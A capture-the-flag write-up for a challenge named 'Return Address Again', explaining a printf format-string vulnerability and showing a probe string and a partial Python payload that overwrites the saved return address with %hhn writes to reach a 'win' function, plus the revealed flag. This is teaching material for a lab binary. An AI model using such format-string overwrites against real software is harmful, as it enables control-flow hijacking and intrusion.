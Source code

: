 # Challenge `Return Address Again` Writeup

- Vulnerability: 
  - Format strings
- Where:
  - printf function
- Impact:
  - allows to return to other functions

## Analyzing the server

The main function calls a function which reads the user input to a buffer.

## Exploit

By running `gdb` its possible to find the address of the `win` function. 
Using `info f` we can find the address where `eip` is stored.
Sending the following format string
```
"AAAA.%08x.%08x.%08x.%08x.%08x.%08x.%08x"
```
and verifying that the 7th register is filled with `41` (the value of `A`) tell us that we control the 7th register.
To call the `win` function we need to overwrite the `eip` value with the address of the `win` function.
However the address of the `eip` can change from machine to machine but the offset between the `buffer` and the `eip` is constant.
So we can locally compute the offset between the `buffer` and the `eip` using `gdb` and then remotely use formatted string to find the address of the `buffer` variable and then compute the address of the `eip` using the offset.
```python
# (to get the buffer address)
payload = b'%08x' 
# (to write in eip)
payload =  p32(saved_eip+2) + b'%007$hhn'                        
payload += p32(saved_eip+3) + b'%010$hhn'                   
payload += p32(saved_eip+1) + b'%000120c' + b'%013$hhn'     
payload += p32(saved_eip+0) + b'%000094c' + b'%018$hhn'     
```
Revealing the flag `SSof{Returning_to_the_same_old_things}`

## Implementation

Full implementation can be found [here](return-address-again.py).
